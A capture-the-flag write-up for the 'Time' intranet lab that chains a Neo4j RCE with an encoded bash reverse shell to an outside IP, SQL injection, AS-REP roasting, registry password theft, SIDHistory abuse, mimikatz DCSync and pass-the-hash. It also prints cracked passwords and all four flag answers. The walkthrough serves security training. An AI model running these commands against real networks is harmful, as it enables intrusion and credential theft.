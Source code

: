 # Spring and Autumn Cloud Mirror & Time

## Target Introduction
`Time` is a shooting range environment with medium difficulty. Completing this challenge can help players understand the technical methods of proxy forwarding, intranet scanning, information collection, privilege escalation and horizontal movement in intranet penetration, strengthen their understanding of the core authentication mechanism of the domain environment, and master some interesting technical points in the domain environment penetration. There are 4 `flags` in this shooting range, distributed in different target machines.

## Attack Process

Using `Nmap` to scan the given `IP`, and found that `Neo4j` exists, and tried to use `Neo4j` to attack without authorization, [CVE-2021-34371](https://github.com/zwjjustdoit/CVE-2021-34371.jar).

![](./images/1.png)

Rebound `Shell` is further utilized.

```bash
java -jar rhino_gadget.jar rmi://39.99.241.178:1337 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTQuNTUuNi4xMjEvODg4OCAwPiYx}|{base64,-d}|{bash,-i}"
```

![](./images/2.png)

Get `flag01` in the `/home/neo4j` directory: `flag{18439d68-f949-42bb-b9e2-c3eef9676b25}`.

![](./images/3.png)

Check the network segment information, download the `fscan` to collect intranet information.

![](./images/4.png)

```
start ping
(icmp) Target 172.22.6.12 is alive
(icmp) Target 172.22.6.25 is alive
(icmp) Target 172.22.6.38 is alive
(icmp) Target 172.22.6.36 is alive
[*] Icmp alive hosts len is: 4
172.22.6.38:22 open
172.22.6.12:88 open
172.22.6.38:80 open
172.22.6.25:445 open
172.22.6.12:445 open
172.22.6.25:139 open
172.22.6.12:139 open
172.22.6.25:135 open
172.22.6.12:135 open
172.22.6.36:7687 open
172.22.6.36:22 open
[*] alive ports len is: 11
start vulscan
[*] NetInfo:
[*]172.22.6.25
   [->]WIN2019
   [->]172.22.6.25
[*] NetInfo:
[*]172.22.6.12
   [->]DC-PROGAME
   [->]172.22.6.12
[*] 172.22.6.12 (Windows Server 2016 Datacenter 14393)
[*] WebTitle: http://172.22.6.38 code:200 len:1531 title: Backend login
[*] NetBios: 172.22.6.25 XIAORANG\WIN2019
[*] NetBios: 172.22.6.12 [+]DC DC-PROGAME.xiaorang.lab Windows Server 2016 Datacenter 14393
[*] WebTitle: https://172.22.6.36:7687 code:400 len:50 title:None
```

Also download `Stowaway` to the target host, open the `Socks` proxy, and then issue the intranet proxy to further detect.

First test the background login and found that there is a SQL injection vulnerability in the `username` field. Directly use `Sqlmap` to dump the entire data.

````sql
available databases [5]:
[*] information_schema
[*] mysql
[*] oa_db
[*] performance_schema
[*] sys
```

````sql
Database: oa_db
[3 tables]
+----------------+
| oa_admin |
| oa_f1Agggg |
| oa_users |
+----------------+
```

Get `flag02` in table `oa_f1Agggg`: `flag{b142f5ce-d9b8-4b73-9012-ad75175ba029}`

![](./images/5.png)

There are 500 mailboxes in the table `oa_users`. After all `dump` is released, combined with the `flag01` prompt `Do you know the authentication process of Kerberos?`, first try enumeration of users in the domain, and finally `74 valid user names are released.

```bash
kerbrute userenum --dc 172.22.6.12 -d xiaorang.lab ~/Desktop/username.txt -t 10
```

![](./images/6.png)

When a user of the blasting domain was used, two sets of credentials were obtained. According to the information, it is speculated that the option "Do not require Kerberos preauthentication" should be set, and the attack can be carried out using "AS-REP Roasting".

```bash
GetNPUsers.py -dc-ip 172.22.6.12 xiaorang.lab/ -usersfile username.txt
```

```
$krb5asrep$23$wenshao@xiaorang.lab@XIAORANG.LAB:1756e89a42df4433cdaaed2951369b82$facac115a0d62bd34ebab877d7c4f8079363aed5894d176d80dfba486 91993fa18eb90af9b2b69e146f94508e01ecc0e9a3886956d84c21e390b51055d4db82b434a1f84c1d79c53e976e8d8ff8da8ae1cd229c758464f94995ba15f8fd237ab7d0 e3c4b12d312e4ae4c4bd09b18f6a8cc5bd43e6afedea796e73af9969fb5fc14dadd654030c5ea53b9515a0dfd63edb7fbe2eafac9ee1f57df4d60daf2588844aebf63c25af db2944f2a3fb857bb0c641347544d116f2a4f1127630006f15ed98b0bdadb812a8036d7e47d3883e5a192a543d4ec5a5fa0a60e874f827832de3a816ad5a3d2126396f1abe0

$krb5asrep$23$zhangxin@xiaorang.lab@XIAORANG.LAB:978a3953a5918e506472d8b7f939a82f$ab62517fb779a42b756289c35c64afa94f28fe15effa9f17e45352e3 6d93772a08ef61314d1c77b1145c421af16a6c12747826a57cb192bba3ae2d954c14c0aa764dd53513ccb737a6504fc8b6d5162eeb253e575a5a0bd8a7abe4462295f2198e0 6cc7f1d714920d160a4dcb107394ddd7931f99f1fdc7abaeb33ffc2a78ff81d7ede1d79bdae97aeaf39655c26845d76890e508695e914eb0ae2210785a9690db00c4d71bce 5da0dbeb492fed33d32ea2e12348080e13cace2ee6ee5e25c867fcb71a045bdfd18e49b4058245ee86fefa58433969229dd6cb3c8daac0294a4a7c1f81f9fcbcce51cc4490
```

![](./images/9.png)

Use `hashcat` to blast the credentials and get two sets of login credential usernames and passwords.

```bash
hashcat -m 18200 --force -a 0 '$krb5asrep$23$wenshao@xiaorang.lab@XIAORANG.LAB:b6c410706b5e96c693b2fc61ee1064c3$2dc9fbee784e7997333f30c6bc4298ab5752ba94be7022e807af418c11359f d92597e253752f4e61d2d18a83f19b5c9df4761e485853a3d879bcf7a270d6f846683b811a80dda3809528190d7f058a24996aff13094ff9b32c0e2698f6d639b4d237a06d13c309
ce7ab428656b79e582609240b01fb5cd47c91573f80f846dc483a113a86977486cecce78c03860050a81ee19921d3500f36ff39fa77edd9d5614cf4b9087d3e42caef 68313d1bb0c4f6bc5392943557b584521b305f61e418eb0f6eb3bf339404892da55134cb4bf828ac318fe00d68d1778b7c82caf03b65f1938e54ed3fa51b63cdb2994' rockyou.txt

hashcat -m 18200 --force -a 0 '$krb5asrep$23$zhangxin@xiaorang.lab@XIAORANG.LAB:971802b84ce99050ad3c5f49d11fd0b7$6c1be075c3cf2a7695529de2ebbf39c5ec7e5326c9d891dac2107b23 9892f76befe52c860e4e1e2ff6537a5765a6bcb6b8baca792d60765ac0bbe1b3c5e59f3ec51b7426636a437d5df12130eb68d9b17ef431455415671c7331a17ce823e28cc41 1677bed341d3fceefc3451b8b232ea6039661625a5c793e30c4d149b2ed9d2926e9d825b3828744ebce69e47746994c9a749ceeb76c560a1840bc74d2b9f301bb5b870c6805 91516354460dab2238e7827900ed80320dd3a6f46874b1bc8a3a68aea7bd11d0683ec94103f59d9511691090928e98d0d8978f511e71fd9db0067fa0d450c120f3726918d7' rockyou.txt
```

```
wenshao@xiaorang.lab/hellokitty
zhangxin@xiaorang.lab/strawberry
```

![](./images/7.png)

![](./images/8.png)

Use the two sets of credentials to connect to the `RDP`, use `wenshao/hellokitty` to successfully log in to `XIAORANG\WIN2019`, use `SharpHound` to collect information in the domain, check the `Shortest Paths to Unconstrained Delegation Systems`, and find that the domain user `YUXUAN` has `HasSIDHistory` pointing to `Administrator@xiaorang.lab` (indicating that the user has the permissions of the domain administrator), and there is `Session` of `YUXAUN` on the `WIN2019.XIAORANG.LAB` host.

![](./images/10.png)

After checking the session, I found that there is indeed a session of the domain user `YUXUAN`.

```bash
query user
query session
```

![](./images/11.png)

Try to grab the password for automatic login and get `yuxuan/Yuxuan7QbrgZ3L`, which can also be obtained by using the tool `WinPEARS`.

```bash
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

![](./images/12.png)

Then, use the `HasSIDHistory` feature of the domain user `YUXUAN`, switch to `yuxuan` to log in to the remote desktop, and directly obtain `flag04` under the domain control machine `\\172.22.6.12\c$\Users\Administrator\flag\`: `flag{2e2ebd95-ce2e-4704-9043-d859644e1c13}`.

![](./images/13.png)

Upload `mimikatz` to export the `Hash` of all users in the domain and get the `Hash` of the domain user `Administrator`: `04d93ffd6f5f6e4490e0de23f240a5e9`.

```bash
mimikatz.exe "lsadump::dcsync /domain:xiaorang.lab /all /csv" "exit"
```

![](./images/14.png)

Directly to `WIN2019` to get `flag03`: `flag{0991a26e-aa0d-4f26-9dc7-2bb5a10b2d1e}`.

```bash
python3 psexec.py -hashes :04d93ffd6f5f6e4490e0de23f240a5e9 xiaorang.lab/administrator@172.22.6.25
```

![](./images/15.png)